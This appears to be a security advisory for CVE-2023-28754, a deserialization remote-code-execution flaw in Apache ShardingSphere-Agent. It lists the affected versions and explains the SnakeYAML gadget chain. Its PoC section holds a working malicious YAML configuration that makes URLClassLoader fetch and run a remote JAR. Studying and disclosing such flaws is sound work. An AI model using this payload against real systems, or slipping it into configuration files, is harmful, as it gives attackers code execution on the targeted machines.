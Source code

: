 ```yaml
---
description: CVE-2023-28754, High, Apache ShardingSphere-Agent Deserialization RCE
title: Apache ShardingSphere-Agent Deserialization RCE
date_published: "2023-07-23"
last_updated: "2023-07-23"
xray_id: XRAY-526292
vul_id: CVE-2023-28754
cvss: 8.1
severity: high
discovered_by: Liav Gutman
type: vulnerability

---
```


## Summary

Apache ShardingSphere-Agent Deserialization RCE

## Component

org.apache.shardingsphere:shardingsphere

## Affected versions

(,5.4.0)

## Description

Deserialization of Untrusted Data vulnerability in Apache ShardingSphere-Agent, which allows attackers to execute arbitrary code by constructing a special YAML configuration file.

The attacker needs to have permission to modify the ShardingSphere Agent YAML configuration file on the target machine, and the target machine can access the URL with the arbitrary code JAR.
An attacker can use SnakeYAML to deserialize java.net.URLClassLoader and make it load a JAR from a specified URL, and then deserialize javax.script.ScriptEngineManager to load code using that ClassLoader. When the ShardingSphere JVM process starts and uses the ShardingSphere-Agent, the arbitrary code specified by the attacker will be executed during the deserialization of the YAML configuration file by the Agent.

This issue affects ShardingSphere-Agent: through 5.3.2. This vulnerability is fixed in Apache ShardingSphere 5.4.0.

## PoC

Malicious ShardingSphere YAML configuration that will load an arbitrary remote JAR file -

```
plugins:
  logging:
    BaseLogging:
      props:
        level: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:7070/yaml-payload.jar"]]]]
  metrics:
    Prometheus:
      host:  "localhost"
      port: 9090
      props:
        jvm-information-collector-enabled: "true"
  tracing:
    Zipkin:
      host: "localhost"
      port: 9411
      props:
        service-name: "shardingsphere"
        url-version: "/api/v2/spans"
        sampler-type: "const"
        sampler-param: "1"
    OpenTelemetry:
      props:
        otel-resource-attributes: "service.name=shardingsphere"
        otel-traces-exporter: "zipkin"
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[http://www.openwall.com/lists/oss-security/2023/07/19/3](http://www.openwall.com/lists/oss-security/2023/07/19/3)

[https://lists.apache.org/thread/p8onhqox5kkwow9lc6gs03z28wtyp1cg](https://lists.apache.org/thread/p8onhqox5kkwow9lc6gs03z28wtyp1cg)

